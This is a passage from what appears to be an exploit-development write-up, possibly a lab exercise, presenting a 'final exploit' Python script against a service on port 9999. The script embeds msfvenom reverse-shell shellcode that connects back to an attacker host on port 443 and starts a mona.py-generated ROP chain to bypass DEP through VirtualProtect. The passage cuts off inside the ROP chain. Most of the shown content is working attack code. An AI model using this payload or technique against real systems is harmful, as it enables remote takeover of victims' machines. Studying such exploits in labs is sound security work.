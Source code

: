 
## Final exploit

Here is the final exploit to pop a reverse shell. I added some memN0ps ;) before and after the shellcode. The ROP chain takes the place of our JMP ESP, we no longer require the JMP ESP

```python
import socket
import struct

#author memN0ps

# Target IP address and port
RHOST = "192.168.16.129"
RPORT = 9999

# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.16.128 LPORT=443 EXITFUNC=thread -b '\x00' -f c
shellcode = ("\xbe\x4a\xef\xc7\xc3\xd9\xc8\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1"
"\x52\x31\x72\x12\x03\x72\x12\x83\xa0\x13\x25\x36\xc8\x04\x28"
"\xb9\x30\xd5\x4d\x33\xd5\xe4\x4d\x27\x9e\x57\x7e\x23\xf2\x5b"
"\xf5\x61\xe6\xe8\x7b\xae\x09\x58\x31\x88\x24\x59\x6a\xe8\x27"
"\xd9\x71\x3d\x87\xe0\xb9\x30\xc6\x25\xa7\xb9\x9a\xfe\xa3\x6c"
"\x0a\x8a\xfe\xac\xa1\xc0\xef\xb4\x56\x90\x0e\x94\xc9\xaa\x48"
"\x36\xe8\x7f\xe1\x7f\xf2\x9c\xcc\x36\x89\x57\xba\xc8\x5b\xa6"
"\x43\x66\xa2\x06\xb6\x76\xe3\xa1\x29\x0d\x1d\xd2\xd4\x16\xda"
"\xa8\x02\x92\xf8\x0b\xc0\x04\x24\xad\x05\xd2\xaf\xa1\xe2\x90"
"\xf7\xa5\xf5\x75\x8c\xd2\x7e\x78\x42\x53\xc4\x5f\x46\x3f\x9e"
"\xfe\xdf\xe5\x71\xfe\x3f\x46\x2d\x5a\x34\x6b\x3a\xd7\x17\xe4"
"\x8f\xda\xa7\xf4\x87\x6d\xd4\xc6\x08\xc6\x72\x6b\xc0\xc0\x85"
"\x8c\xfb\xb5\x19\x73\x04\xc6\x30\xb0\x50\x96\x2a\x11\xd9\x7d"
"\xaa\x9e\x0c\xd1\xfa\x30\xff\x92\xaa\xf0\xaf\x7a\xa0\xfe\x90"
"\x9b\xcb\xd4\xb8\x36\x36\xbf\x06\x6e\x28\xbf\xef\x6d\x48\xbe"
"\x54\xf8\xae\xaa\xba\xad\x79\x43\x22\xf4\xf1\xf2\xab\x22\x7c"
"\x34\x27\xc1\x81\xfb\xc0\xac\x91\x6c\x21\xfb\xcb\x3b\x3e\xd1"
"\x63\xa7\xad\xbe\x73\xae\xcd\x68\x24\xe7\x20\x61\xa0\x15\x1a"
"\xdb\xd6\xe7\xfa\x24\x52\x3c\x3f\xaa\x5b\xb1\x7b\x88\x4b\x0f"
"\x83\x94\x3f\xdf\xd2\x42\xe9\x99\x8c\x24\x43\x70\x62\xef\x03"
"\x05\x48\x30\x55\x0a\x85\xc6\xb9\xbb\x70\x9f\xc6\x74\x15\x17"
"\xbf\x68\x85\xd8\x6a\x29\xa5\x3a\xbe\x44\x4e\xe3\x2b\xe5\x13"
"\x14\x86\x2a\x2a\x97\x22\xd3\xc9\x87\x47\xd6\x96\x0f\xb4\xaa"
"\x87\xe5\xba\x19\xa7\x2f")


def create_rop_chain():
        # rop chain generated with mona.py - www.corelan.be
        rop_gadgets = [
        #[---INFO:gadgets_to_set_esi:---]                                                                                                                                                                                                                                                                                  
        0x76a172f0,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                      
        0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]                                                                                                                                                                                                                                                          
        0x7521fd52,  # MOV ESI,DWORD PTR DS:[ECX] # ADD DH,DH # RETN [MSCTF.dll] ** REBASED ** ASLR                                                                                                                                                                                                                        
                                                                                                                                                                                                                                                                                                                           
```